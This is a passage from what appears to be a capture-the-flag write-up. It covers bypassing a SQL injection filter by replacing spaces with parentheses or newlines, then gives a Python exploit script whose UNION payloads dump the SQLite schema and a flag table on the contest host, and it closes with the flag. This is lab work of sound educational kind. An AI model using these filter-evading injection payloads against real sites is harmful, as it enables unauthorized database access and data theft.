 ```javascript
SELECT name from users; --> SELECT(name)FROM(users);
```
* Space characters can also be bypassed using `\n` (new line characters).

```javascript
SELECT name from users;  

-->

SELECT
name
FROM
users;
```
* Comments `(/* */)` can be avoided by making the trailing statement after injection, valid

#### Exploit script
```python
import requests
url = "http://alex-fan-club.litctf.live"

# Use the payload to get the table and column names
payload = '''Has'
union
SELECT
sql
FROM
sqlite_master
WHERE
type!='meta'
AND
sql
NOT
NULL
AND
name='redacted'
or
'has'like\''''

# After you get the table and column names, 
# substitute them here, and use this payload 
# to get the flag
payload2 = '''Has'
union
SELECT
flag_column
from
flag_is_in_here
where
flag_column
like\''''

url = url + "/?param=" + payload2
res = requests.get(url)
print(res.text)
```
#### Flag
> flag{c0d3tig3r_g0t_gm_p3rf0rm4nc3_on_a_div_1_0rz}
